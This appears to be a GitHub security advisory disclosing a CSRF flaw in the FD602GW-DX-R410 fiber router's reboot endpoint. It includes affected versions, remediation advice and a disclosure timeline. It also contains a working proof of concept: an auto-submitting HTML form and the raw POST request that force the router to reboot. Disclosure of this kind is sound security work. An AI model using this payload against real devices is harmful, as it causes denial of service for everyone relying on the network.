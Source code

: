 # fd602gw-dx-r410-csrf-advisory
CSRF vulnerability in FD602GW-DX-R410 router allows remote attackers to reboot the device via a crafted POST request to /boaform/admin/formReboot when an admin is authenticated.


# CVE-2025-XXXXX: Security Advisory – CSRF Vulnerability in FD602GW-DX-R410 Router Reboot Function

Proof of Concept and Security Advisory for a Cross-Site Request Forgery (CSRF) vulnerability in the FD602GW-DX-R410 fiber router’s admin interface (Firmware V2.2.14). The advisory outlines the impact, attack vector, and recommendations for remediation.

---

## Overview

A Cross-Site Request Forgery (CSRF) vulnerability was discovered in the FD602GW-DX-R410 fiber router’s web-based admin console (Firmware V2.2.14). The `/boaform/admin/formReboot` endpoint allows POST requests to trigger a full device reboot without CSRF tokens or origin validation. If an authenticated administrator visits a malicious page, the router can be remotely rebooted without consent.

* **CVE ID:** CVE-2025-XXXXX
* **Advisory Publication Date:** July 2025
* **Discovered by:** Hasanka Amarasinghe (Independent Security Researcher)
* **Vendor:** Shenzhen C-Data Technology Co., Ltd.
* **Product Affected:** FD602GW-DX-R410 Fiber Router
* **Firmware Version:** V2.2.14 (Build.1918.241111)
* **Hardware Version:** R410.1B
* **Bootloader Version:** V3.7-2312181457
* **Web Server:** Boa/0.93.15
* **Access Vector:** Remote (Authenticated admin must be logged in)
* **Severity:** Medium
* **CVSS v3.1 Base Score:** 5.4 (Medium)

---

## Affected Product

* **Device:** FD602GW-DX-R410 Fiber Router
* **Firmware:** V2.2.14 (Build.1918.241111)
* **Component:** Reboot Handler - `/boaform/admin/formReboot`
* **Web Server:** Boa/0.93.15

---

## Vulnerability Details

* **Type:** Cross-Site Request Forgery (CSRF)
* **Attack Vector:** Remote (admin must be logged in to their session)
* **Authentication:** None required for the attacker (admin session required on victim browser)
* **Impact:** Unauthorized reboot of the device
* **State Persistence:** Stateless session, likely tracked via IP or internal session tokens

---

## Proof of Concept (PoC)

### CSRF Payload (HTML)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Pro -->
  <body>
    <form action="http://192.168.1.1/boaform/admin/formReboot" method="POST">
      <input type="hidden" name="postSecurityFlag" value="+65535" />
      <input type="submit" value="Submit" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### HTTP Request

```http
POST /boaform/admin/formReboot HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

postSecurityFlag=+65535
```

### Response

HTTP 200 OK; Router reboots immediately.

---

## Recommendations

* Implement CSRF tokens and strict Origin/Referer validation on all admin endpoints.
* Invalidate stale or orphaned sessions and bind sessions to secure cookies.
* Consider CAPTCHA or confirmation prompts before executing destructive actions like reboot.
* Restrict admin interface access to trusted IPs or internal networks only.

---

## Attack Vector

* Requires the router administrator to be authenticated (logged in).
* An attacker lures the victim to visit a malicious webpage which silently triggers a POST request to the reboot endpoint.
* The router accepts the forged request and reboots immediately, causing denial of service.

---

## Impact

* Denial of service due to forced reboot.
* Loss of network availability for all connected users.
* Possibility to chain with other issues (e.g., session hijack or XSS) to elevate impact.

---

## Disclosure Timeline

| Date     | Action                                      |
| -------- | ------------------------------------------- |
| Jun 2025 | Vulnerability discovered                    |
| Jun 2025 | Attempted responsible disclosure (no reply) |
| Jul 2025 | CVE ID requested from MITRE                 |
| Jul 2025 | Advisory prepared and pending publication   |

---

## References

* Vendor: Shenzhen C-Data Technology Co., Ltd.
* Device: FD602GW-DX-R410
* Firmware: V2.2.14
* GitHub Advisory: *\[link once public]*

---

## Disclaimer

This advisory is provided for educational and security awareness purposes. The author bears no responsibility for misuse. All testing was performed in a controlled environment.


